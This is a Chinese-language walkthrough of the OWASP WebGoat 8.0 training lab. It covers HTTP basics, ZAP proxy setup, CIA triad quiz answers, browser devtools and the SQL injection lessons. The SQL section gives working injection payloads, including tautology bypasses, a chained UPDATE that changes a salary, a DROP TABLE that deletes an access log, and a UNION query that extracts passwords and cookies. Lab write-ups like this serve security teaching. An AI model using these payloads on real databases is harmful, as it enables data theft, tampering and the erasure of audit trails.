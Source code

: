 # Webgoat 8.0 writeup

## 通用部分
### HTTP Basics
这部分内容旨在介绍HTTP协议的基本内容，如何工作。

需要掌握的关键是：
- 客户端访问服务器时发送请求和获得响应的实质
- Get request
- Post request
- User-Agent
- Accept

在练习中，可以通过查看源码、打开开发者模式界面查看请求信息得到答案。

### HTTP Proxies

这部分介绍了使用代理，截获 web客户端与服务器之间的通信流量，对于部分内容进行修改的过程。

Proxies的功能很丰富，善加应用可以完成很多安全功能。

常用的Web代理：
- Burpsuite
- ZAP
- ...

课程中重点介绍了 Owasp ZAP 的安装使用，虽然很多人习惯使用Burpsuite，但ZAP是开源免费的，而且功能也很齐全。

Owasp ZAP 的代理设置在菜单 Tools-Options-Local Proxy 中设置。

Firefox 浏览器的代理设置在其高级设置中；Chrome浏览器的代理设置现在需要设置本地代理，麻烦一些。

设置完毕后，需要验证代理是否正常工作，即验证网页访问能被代理正常拦截，且能手动放行。

为了能够聚焦客户端到服务器的访问，访问页面中自己访问服务器的行为可以不关注，通过在代理中设置"exclude from"，不再阻止和观察这些流量，有助于我们集中注意力。例如，我们可以在 exclude from.. 窗口中增加设置：

```
http://localhost:8080/WebGoat/service/.*
http://localhost:8080/WebGoat/.*.lesson.lesson
```

题目不难，要注意大小写。

### CIA triad

CIA 原则是一个信息安全模型。这3个原则考虑了最为关键的信息安全嘴贱和所有系统都应该保护的方面。

1. How could an intruder harm the security goal of confidentiality?选c

Solution 1: By deleting all the databases.
Solution 2: By stealing a database where general configuration information for the system is stored.
Solution 3: By stealing a database where names and emails are stored and uploading it to a website.
Solution 4: Confidentiality can't be harmed by an intruder.

2. How could an intruder harm the security goal of integrity?选a

Solution 1: By changing the names and emails of one or more users stored in a database.
Solution 2: By listening to incoming and outgoing network traffic.
Solution 3: By bypassing authentication mechanisms that are in place to manage database access.
Solution 4: Integrity can only be harmed when the intruder has physical access to the database storage.
3. How could an intruder harm the security goal of availability?选d

Solution 1: By exploiting bugs in the systems software to bypass authentication mechanisms for databases.
Solution 2: By redirecting emails with sensitive data to other individuals.
Solution 3: Availability can only be harmed by unplugging the power supply of the storage devices.
Solution 4: By launching a denial of service attack on the servers.
4. What happens if at least one of the CIA security goals is harmed?选b

Solution 1: A system can be considered safe until all the goals are harmed. Harming one goal has no effect on the systems security.
Solution 2: The systems security is compromised even if only one goal is harmed.
Solution 3: It's not that bad when an attacker reads or changes data, at least some data is still available, hence only when the goal of availability is harmed the security of the system is compromised.
Solution 4: It shouldn't be a problem if an attacker changes data or makes it unavailable, but reading sensitive data is not tolerable. Theres only a problem when confidentiality is harmed.

### Google chrome 开发者工具

console 可以运行JavaScript本地脚本。查看页面内容和其他信息。‘undifined'表示你调用的JavaScript函数没有返回任何东西。


打开console ，键入```webgoat.customjs.phoneHome()```，调用页面已加载的脚本函数，可以得到一个输出，把输出中的数字复制出来即可。

source 面板可以看源代码

network 面板可以看网络通信过程。

在network中观察form表单数据，就能得到答案。

## 注入缺陷

### sql注入-介绍

第一题，Try to retrieve the department of the employee Bob Franco.，键入sql语句：```select department from employees where first_name='Bob' and last_name='Franco'```

第二题，Try to change the department of Tobi Barnett to 'Sales'. 键入sql语句：```UPDATE employees SET department='Sales' where first_name='Tobi' and last_name='Barnett'```

第三题，try to modify the scheme by adding the column "phone" (varchar(20)) to the table "employees". :键入下列语句：
```ALTER TABLE employees ADD phone varchar(20);```


第4题，Try to grant the usergroup "UnauthorizedUser" the right to alter tables: 输入下列语句：```GRANT alter table TO UnauthorizedUser```


#### sql注入

sql注入会导致：
- 数据库中的敏感数据被读取和改动
- 数据库管理员权限操作
  - 关闭数据库
  - 关闭审计
  - 清除表和记录
  - 增加用户
- 恢复戈丁文件的内容
- 发现OS问题命令

第9题 try to retrieve all the users from the users table。
选```'```和```'1'='1```
。

#### Numeric SQL

第10题 Using the two Input Fields below, try to retrieve all the date from the users table.

两个输入框，分别键入：
- ```1```
- ``` 1 or '1'='1'```

数字型sql注入，特点就是录入的是数字，不需要加包含字符串的引号。

#### 字符型注入

字符型注入需要考虑引号了。

第11题，分别输入：
- 1' or '1'='1
- 1

#### 查询链

SQL 查询链就是一个跟在另一个查询后面。你可以使用标记查询结束的分号```;```这一元字符，它允许在一行中开始一个新的查询。
第一空输入Smith

第二空可以先用 ```3SL99A' ; select *  from employees where '1'='1``` 查一下表内情况。 然后再输入下列语句：


```3SL99A' ;UPDATE employees SET SALARY=99999 where LAST_NAME='Smith```


#### 破坏可用性

使用SQL注入的方法破坏机密性、完整性，也可以破坏可用性。

例如：
- 修改密码或用户名
- 取消某个用户的访问权限
- 删除部分或全部数据

第13题，To delete access_log table completely before anyone notices.

输入框中键入```1 ; select * from access_log```，提交后发现查询成功，但没有数据。

再次输入下列语句：```'; DROP TABLE access_log ;--```

### 高级 SQL 注入

- 结合型技术
- 盲注

6.a 键入命令```' OR '1'='1';  select * from user_system_data --```

也可以使用union语句完成：```' or 1=1  union select userid, user_name, password,cookie,'1','1',1 from user_system_data -- ```


6.b ```passW0rD```

